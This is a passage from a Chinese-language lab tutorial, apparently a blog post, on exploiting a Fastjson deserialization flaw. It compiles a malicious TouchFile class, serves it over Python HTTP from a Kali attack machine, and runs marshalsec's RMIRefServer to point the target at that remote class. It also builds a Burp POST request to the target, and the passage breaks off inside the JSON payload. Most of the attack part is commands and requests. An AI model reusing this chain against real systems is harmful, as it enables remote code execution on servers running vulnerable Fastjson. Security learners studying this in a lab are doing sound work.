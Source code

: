 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4SGxYXx9R8Eq3mvLibTZaq53BL32xRyugXqib5nSDOq5E7ywGhhNB7QaQ/640?wx_fmt=png&from=appmsg "")  
  
三、编译.java文件，生成.class文件。  
```
javac TouchFile.java
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4R0q3vPs8r6or0lIIXbIHH7zmyToVyiaC8YNkeWYUiaB0ZL68npDkGVWA/640?wx_fmt=png&from=appmsg "")  
  
四、然后我们再把编译好的.class文件上传到攻击机kali目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4UVicX3qnXpkiaE3zdUqIKZFBd3dvMMHtxAWNmibjKSq6Acibt09ic0FgYVQ/640?wx_fmt=png&from=appmsg "")  
  
五、在class文件所在的目录，Python起一个http服务。用4444端口启动http服务的命令为：  
```
┌──(root💀kali)-[~/桌面/fastjson]
└─# python -m http.server 4444
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4n0VdfIjhoOZkscEibe57DicuWr8fFtO4zoltSdkeoJSByCic4Xlow2ib7g/640?wx_fmt=png&from=appmsg "")  
  
六、访问kali的IP+开启http服务的4444端口，就会出现下面的页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4xNVvwpbaSUN1YWh5EiaGWtEvUCl2rGhabVr6XQWmgXyiavgibvORQPQVg/640?wx_fmt=png&from=appmsg "")  
### 2、开启RMI服务  
  
一、开启rmi服务之前，我们需要利用marshalsec项目，需要用到marshalsec-0.0.3-SNAPSHOT-all.jar工具，下载链接如下：  
https://github.com/bkfish/Apache-Log4j-Learning/tree/main/tools  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4aw2rrGZ8D2gozGLFur14pkaMUkmXE1EicRfH3jRRsNNnhib3fRy5pNoQ/640?wx_fmt=png&from=appmsg "")  
  
二、接下来使用marshalsec项目，启动RMI服务，监听9999端口并加载远程类TouchFile.class：  
  
开启RMI服务，命令行中的IP地址是kali攻击机开始开启http服务的地址  
```
┌──(root💀kali)-[~/桌面/Apache-Log4j-Learning-main/tools]
└─# java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.103.129:4444/#TouchFile" 9999
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4lpTCW1J2WeoIOTsndDDFNtyYrxdGVazB89xNsGbVsOyQ8OSI0xp8bA/640?wx_fmt=png&from=appmsg "")  
  
三、利用burp抓取靶机ubantu（192.168.103.161:8090）的包，然后再改变抓到的包的请求方式为POST，然后再发送到Repeater中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4JY884B9vLKHEViaibCpcb6V2EyoHicDId9dBicFgEiaWmSXkpalEkNC8mqw/640?wx_fmt=png&from=appmsg "")  
  
四、添加payload，师傅们可以参考我这个请求包的内容，因为我开始在网上找了很多，然后rmi服务监听都没有回应，都失败了。  
```
POST / HTTP/1.1
Host: 192.168.103.161:8090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 165
{
    "b":{
```
